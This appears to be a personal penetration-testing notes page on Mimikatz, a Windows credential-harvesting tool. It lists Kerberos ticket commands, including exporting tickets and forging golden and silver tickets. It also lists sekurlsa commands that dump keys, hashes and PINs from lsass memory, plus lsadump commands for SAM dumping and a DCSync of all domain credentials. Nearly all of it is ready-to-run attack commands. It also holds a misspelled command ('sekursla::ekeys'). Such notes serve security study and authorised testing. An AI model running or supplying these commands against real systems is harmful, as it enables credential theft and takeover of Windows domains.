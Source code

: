 - Used to harvest credentials from a windows machine.
- Has two additional components:
	- `Mimidrv`: driver that interacts with windows kernel
	- `Mimilib`: Bypass applocker, auth package/SSP etc.
- Runs with:
	- `Administrator` with `Privilege::debug` mode
	- `SYSTEM` privilege

# Kerberos
### ask
```bash
kerberos::ask
```
### list
- Lists or exports TGTs and STs from the current session
```powershell
kerberos::list # Lists the tickets
kerberos::list /export # Export the tickets to files
```
### purge
- purge all TGTs and STs from the current session.
```powershell
kerberos::purge
```
### tgt
- Prints information about the TGT from current session
```powershell
kerberos::tgt
```
### golden
[Golden Tickets](Active%20Directory/Initial%20Foothold/Kerberos#Golden%20Tickets)
- Create golden tickets from krbtgt's NTLM hash or Kerberos keys.
### silver
- Create silver ticket from a service's NTLM hash or Kerberos keys.

# SekurLSA
Dumps keys, password hashes, pin codes from protected memory of lsass.exe proccess.
Rights required:
- SYSTEM
- Administrator with debug privilege (privilege::debug)
### backupkeys
- get backup master keys.
```powershell
sekurlsa::backupkey
```
### credman
- Lists credential manager
```powershell
sekurlsa::credman
```
### dpapi
[DPAPI](../Windows/Windows%20Internals/Uncategorized/DPAPI.md)
- Lists cached master keys
```powershell
sekurlsa::dpapi
```
### ekeys
Lists kerberos encryption keys
```powershell
sekursla::ekeys
```
# LSAdump
### sam
- Dumps the sam database directory from memory or offline using the sam and system registry hives.
```powershell
# On target machine
lsadump::sam
# Using system and sam hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
### dcsync
- Perform dc-sync on the domain controller to dump ntds credentails, keys etc.
```powershell
# Dump credential of a specidic user
lsadump::dcsync /domain:mydomain.local /user:dr.dragon
# Dump all credentials
lsadump::dcsync /domain:mydomain.local /all
```